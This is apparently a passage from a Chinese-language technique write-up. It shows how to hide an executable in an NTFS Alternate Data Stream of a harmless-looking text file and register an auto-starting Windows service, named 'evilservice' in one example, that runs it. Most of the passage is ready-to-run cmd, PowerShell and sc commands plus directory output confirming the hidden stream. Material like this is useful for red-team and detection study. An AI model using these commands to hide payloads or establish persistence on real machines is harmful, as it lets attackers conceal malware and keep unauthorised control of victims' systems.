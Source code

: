 ![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715083567069-5536cb17-5d00-4b8d-9c93-ae7a5e81acf8.png)

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715086195033-52cf5988-c97b-4f07-94fa-c23b08766792.png)

```php
type c:\windows\system32\cmd.exe > %CD%file.txt:cmd.exe
sc create evilservice binPath= "\"%CD%file.txt:cmd.exe\" /c echo works > \"%CD%works.txt\"" DisplayName= "evilservice" start= auto
sc start evilservice
```

这里通过注册服务来达到开机自启动的效果。

测试驱动加载
======

经过测试，无法加载驱动。因为驱动需要指定固定路径，无法从ADS数据流中进行加载。

整体流程
====

创建基础文件
------

```php
echo AnyData > MyFile.txt
```

制作隐藏恶意ADS文件流
------------

使用powershell：

```php
Get-Content -Path "C:\windows\system32\cmd.exe" -Raw | Set-Content -Path "$($PWD.Path)\MyFile.txt:cmd.exe" -Stream cmd.exe
```

使用cmd查看生成的数据流：

```php
 Directory of C:\Users\root\Desktop\testfile

05/08/2024  09:49 AM    <DIR>          .
05/08/2024  09:49 AM    <DIR>          ..
05/08/2024  10:04 AM                20 MyFile.txt
                               289,794 MyFile.txt:cmd.exe:$DATA
               1 File(s)             20 bytes
               2 Dir(s)  43,033,567,232 bytes free
```

创建持久化服务
-------

```php
sc create ADS binPath= "\"%CD%\\MyFile.txt:cmd.exe\" /c echo works > \"%CD%\\works.txt\"" DisplayName= "ADS" start= auto
```
